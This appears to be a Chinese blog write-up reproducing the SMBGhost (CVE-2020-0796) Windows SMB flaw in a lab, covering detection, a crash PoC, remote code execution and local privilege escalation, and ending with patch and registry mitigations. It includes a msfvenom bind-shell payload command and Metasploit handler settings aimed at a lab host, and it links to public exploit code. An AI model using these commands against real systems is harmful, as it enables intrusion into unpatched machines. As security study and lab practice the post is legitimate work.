



# CVE-2020-0796 漏洞复现 - xiaoxiaosen - 博客园

> 原文：[`www.cnblogs.com/xiaoxiaosen/p/13056272.html`](https://www.cnblogs.com/xiaoxiaosen/p/13056272.html)

### **漏洞描述：**

SMB 远程代码执行漏洞

SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

### 漏洞原理：

Microsoft 服务器消息块（SMB）协议是 Microsoft Windows 中使用的一项 Microsoft 网络文件共享协议。在大部分 windows 系统中都是默认开启的，用于在计算机间共享文件、打印机等。

Windows 10 和 Windows Server 2016 引入了 SMB 3.1.1 。本次漏洞源于 SMBv3 没有正确处理压缩的数据包，在解压数据包的时候使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。

利用该漏洞，黑客可直接远程攻击 SMB 服务端远程执行任意恶意代码，亦可通过构建恶意 SMB 服务端诱导客户端连接从而大规模攻击客户端。

### 影响范围：

Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows Server, Version 1903 (Server Core installation)
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows Server, Version 1909 (Server Core installation)

## 复现：

### **一、环境准备**

目标机：windows10 1903 x64     ip：192.168.142.129 （关闭防火墙）

攻击机：kali    ip：192.168.142.128

windows10 1903 x64 迅雷下载：https://sl-m-ssl.xunlei.com/h5/page/download-share/index.html?entry=link&appType=PC&videobtindex=-1&storid=c39vhtrekug5&share_from=dlpage_share_link

### **二、漏洞检测**

工具下载：http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip


### 三、漏洞攻击-蓝屏

POC 下载：https://github.com/eerykitty/CVE-2020-0796-PoC

利用 POC 发起攻击


win10 1903 马上就蓝屏了



### 四、漏洞利用-getshell

脚本下载：https://github.com/chompie1337/SMBGhost_RCE_PoC

#### 1、生成正向连接木马

msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8888 -b '\x00' -i 1 -f python

 用生成的 shellcode 将 exploit.py 中的这一部分替换掉（buf 后的字符串，保留 USER_PAYLOAD 不变）



 * * * 

Meterpreter 的使用

bind_tcp

path : payload/windows/meterpreter/bind_tcp

正向连接 shell，因为在内网跨网段时无法连接到 attack 的机器，所以在内网中经常会使用，不需要设置 LHOST

reverse_tcp

path : payload/windows/meterpreter/reverse_tcp

反向连接 shell,使用起来很稳定。需要设置 LHOST

reverse_http/https

path:payload/windows/meterpreter/reverse_http/https

通过 http/https 的方式反向连接，在网速慢的情况下不稳定，https 如果反弹没有收到数据，可以将监听端口换成 443 试试

####  2、开启 msf 监听

```
use exploit/multi/handler set payload windows/x64/meterpreter/bind_tcp set lport 8888 //监听端口
set rhost 192.168.142.129  //目标主机
run
```


#### 4、运行 exploit.py 脚本，反弹 shell

按道理来说，这里应该是反弹了一个 shell 的，可是！！！一直报错，参考原文是要将 win10 的内存调整到 4 个 G 以上，我也调了的，还是不行，只有后面再看看了，有知道的师傅指点指点（抱拳.jpg）


### 五、漏洞利用-本地提权

下载地址：[`github.com/danigargu/CVE-2020-0796/releases`](https://github.com/danigargu/CVE-2020-0796/releases)

如果提示找不到 dll 文件，那么在 win10 上安装个 vc 运行库就好了



### 六、漏洞加固

1、更新补丁

2、微软给出了临时的应对办法：
运行 regedit.exe，打开注册表编辑器，在 HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters 建立一个名为 DisableCompression 的 DWORD，值为 1，禁止 SMB 的压缩功能。

3、将 SMB445 通信端口进行封禁

### 参考：

[`blog.csdn.net/weixin_44677409/article/details/106568350?fps=1&locationNum=2`](https://blog.csdn.net/weixin_44677409/article/details/106568350?fps=1&locationNum=2)

[`mp.weixin.qq.com/s/SkjMVhFPSf8QsPe23cWjxQ`](https://mp.weixin.qq.com/s/SkjMVhFPSf8QsPe23cWjxQ)

[`mp.weixin.qq.com/s?__biz=MzI4MDQ5MjY1Mg==&mid=2247485253&idx=2&sn=bbe1d8b38654668e28f6bfb2b79abfcc&chksm=ebb6e846dcc16150ab9332cf1c1bd7a8b869af6d409ea45e37c5534e773f1f23121b5ad6458f&mpshare=1&scene=23&srcid=&sharer_sharetime=1591324174884&sharer_shareid=0b96a5d25dcc39cabb6efb2cbd55269b#rd`](https://mp.weixin.qq.com/s?__biz=MzI4MDQ5MjY1Mg==&mid=2247485253&idx=2&sn=bbe1d8b38654668e28f6bfb2b79abfcc&chksm=ebb6e846dcc16150ab9332cf1c1bd7a8b869af6d409ea45e37c5534e773f1f23121b5ad6458f&mpshare=1&scene=23&srcid=&sharer_sharetime=1591324174884&sharer_shareid=0b96a5d25dcc39cabb6efb2cbd55269b#rd)

[`blog.csdn.net/Adminxe/article/details/105917952?utm_medium=distribute.pc_relevant.none-task-blog-baidujs-4`](https://blog.csdn.net/Adminxe/article/details/105917952?utm_medium=distribute.pc_relevant.none-task-blog-baidujs-4)

https://blog.csdn.net/RatOnSea/article/details/106399450